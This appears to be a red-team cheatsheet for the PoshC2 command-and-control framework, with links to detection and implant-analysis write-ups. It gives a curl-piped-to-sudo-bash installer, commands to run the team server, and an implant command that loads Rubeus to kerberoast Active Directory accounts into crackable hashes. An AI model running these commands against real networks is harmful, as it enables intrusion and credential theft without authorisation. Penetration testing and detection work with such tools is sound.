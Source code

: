 # PoshC2

- [https://github.com/nettitude/PoshC2](https://github.com/nettitude/PoshC2)
- [https://labs.nettitude.com/blog/detecting-poshc2-indicators-of-compromise/](https://labs.nettitude.com/blog/detecting-poshc2-indicators-of-compromise/)
- [https://xakep.ru/2023/08/18/interstellar-c2/](https://xakep.ru/2023/08/18/interstellar-c2/)
- [[PDF] A Deep Dive Into a PoshC2 Implant (Vlad Pasca)](https://resources.securityscorecard.com/all/poshc2-implant)




## Install

```
$ curl -sSL https://github.com/nettitude/PoshC2/raw/dev/Install.sh | sudo bash -s -- -p /opt/PoshC2 -b dev
```




## Run

List projects:

```
$ posh-project -l
```

Show current project:

```
$ posh-project -c
```

Create a new project:

```
$ posh-project -n <PROJECT_NAME>
```

Adjust config:

```
$ posh-config
```

Start team server:

```
$ posh-server
```

Connect to the team server:

```
$ posh -u snovvcrash
```




## Cheatsheet

[Load](https://poshc2.readthedocs.io/en/latest/usage/loadingmodules.html) .NET assembly and run it (available for agents that load CLR):

```
C# 01> loadmodule /tmp/Rubeus.exe
C# 01> run-exe Namespace.Class Assembly <args>
C# 01> run-exe Rubeus.Program Rubeus kerberoast /usetgtdeleg /format:hashcat
```
